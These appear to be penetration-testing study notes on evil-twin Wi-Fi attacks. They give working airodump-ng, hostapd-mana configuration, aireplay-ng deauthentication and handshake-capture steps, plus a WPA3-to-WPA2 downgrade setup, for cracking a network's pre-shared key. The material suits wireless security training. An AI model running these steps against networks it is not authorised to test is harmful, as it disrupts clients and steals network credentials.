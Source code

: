 ### Introduction
---
Rogue access points can be:
1. Unauthorized APs plugged into the target network.
2. Malicious APs that mimics the target network.
Here we will be using the second definition for the upcoming attacks.

Clients will connect (reconnect) to a familiar network (by recognizing the ESSID). By advertising the same ESSID of the target AP with a stronger signal, the client may attempt to connect to our rogue AP to obtain the first 2 messages of the 4-way handshake for cracking the PSK.

Useful to capture handshakes & target clients that are far away from the AP.

### Enumeration
---
Some clients will also check for the encryption details of the AP, alongside the ESSID. Thus, the best approach is to mimic both.

To obtain the encryption details, we can use airodump-ng:
```
sudo airodump-ng -w [output name] --output-format pcap wlan0mon
```

Example Output:
```
CH 12 ][ Elapsed: 0 s ][ 2020-08-14 16:23 

 BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

 FC:7A:2B:88:63:EF  -53        5        0    0   1  130   WPA2 CCMP   PSK  Mostar
```
- Look for client `Probes` - we may create a rogue AP based on this ESSID too.

From the above information, we can deduce that Mostar is using 802.11n:
- WPA2-PSK
- CCMP
- 130 Mbit
- Channel 1
Try to match these settings as closely as possible.

##### Packet Inspection:
Airodump-ng only shows the highest encryption. We can extract more information in Wireshark. Open the output Pcap file and using the following filter:
```
wlan.fc.type_subtype == 0x08 && wlan.ssid == "[essid]"
```

Under `IEEE 802.11 Wireless Management` -> `Tagged parametters`, check:
- WPA Information Element
	- I.e., Supports WPA1
	- Check for TKIP & CCM (i.e., CCMP)
- RSN Information
	- I.e., Supports WPA2
	- Check for TKIP & CCM (i.e., CCMP)

### Creating a Rogue AP
---
##### hostapd-mana
hostapd is a tool to create APs using Wi-Fi adapters. Hostapd runs in 802.11b in default.
```
sudo apt install hostapd-mana
```
###### Building the Config file:
```
nano hostapd.conf
```

The insert the following:
```
interface=wlan0
ssid=[essid]
channel=1
hw_mode=g
ieee80211n=1
wpa=3
wpa_key_mgmt=WPA-PSK
wpa_passphrase=ANYPASSWORD
wpa_pairwise=TKIP CCMP
rsn_pairwise=TKIP CCMP
mana_wpaout=/home/kali/[essid].hccapx
```
- Change `ssid` to the Wi-Fi name.
- Set `hw_mode` to `g` for 2.4GHz, and `a` for 5GHz.
- Set `ieee80211n` to 1 for enabling 802.11n. 
- Set `wpa` to 3 for supporting both WPA1 & 2. 
- Set `wpa_key_mgmt` to WPA-PSK. `wpa_passphrase` must be present.
- Set `wpa_pairwise` and `rsn_pairwise` for the encryption details of WPA1 & 2 respectively.
- Set `mana_wpaout` for where to output the capture files.

### Capturing Handshakes
---
```
sudo hostapd-mana hostapd.conf
```
- Look for `MANA: Captured a WPA/2 handshake from:`

If the client hang on to a weak connection with the target AP, we can perform a de-auth attack to disconnect the client from the AP, and connect to us.
- Another Wi-Fi interface is required to perform de-auth attack.
```
sudo aireplay-ng -0 0 -a FC:7A:2B:88:63:EF wlan1mon
```

Crack the captured handshake with aircrack-ng / hashcat.

### WPA3
---
While WPA3 is not crack-able, we may be able to trick the clients into downgrading to WPA2 connection by creating an AP with only WPA2 & 802.11w set to "optional".

In hostapd.config, set the followings:
- Set `wpa=2`
- Delete `wpa_pairwise`
- Set `rsn_pairwise=CCMP`
- Add`ieee80211w=1`
- Set `wpa_key_mgmt=WPA-PSK WPA-PSK-SHA256`
